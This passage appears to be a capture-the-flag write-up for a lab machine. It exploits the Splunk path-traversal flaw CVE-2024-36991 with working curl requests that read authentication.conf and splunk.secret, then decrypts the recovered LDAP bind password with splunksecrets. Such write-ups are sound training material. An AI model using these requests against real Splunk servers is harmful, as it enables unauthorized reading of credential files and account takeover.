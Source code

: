 ![alt text](image-1.png)

The current version has [CVE-2024-36991](https://www.sonicwall.com/blog/critical-splunk-vulnerability-cve-2024-36991-patch-now-to-prevent-arbitrary-file-reads) that allows Arbitrary File Read. We could get the Splunk's passwd file but the hash is uncrackable.  Based on the [Splunk documentation](https://docs.splunk.com/Documentation/Splunk/9.4.1/Admin/Listofconfigurationfiles), the `authentication.conf` file contains configuration about LDAP connection. This file is located inside `$SPLUNK_HOME/etc/system/default/`, but the path traversal from the PoC already exposed the amount path we need to reach the `$SPLUNK_HOME` directory.

### CVE-2024-36991

```bash
curl 'http://10.10.11.61:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/system/local/authentication.conf'
...
bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb
bindDNpassword = <hash>
...
```

You will find `Paul Taylor` hash. This hash is exclusively generated from Splunk hashing algorithm, we can crack it using [splunksecrets](github.com/HurricaneLabs/splunksecrets). Anyway, we need `splunk.secret` which is located at `$SPLUNK_HOME/etc/auth/splunk.secret` directory according to this [thread](https://community.splunk.com/t5/Knowledge-Management/What-is-the-splunk-secret-file-and-is-it-possible-to-change-it/m-p/331207).

```bash
curl 'http://10.10.11.61:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/auth/splunk.secret' -o splunk.secret
````

Crack it with `splunksecrets`.

```bash
splunksecrets splunk-decrypt -S splunk.secret --ciphertext '<hash>'
```
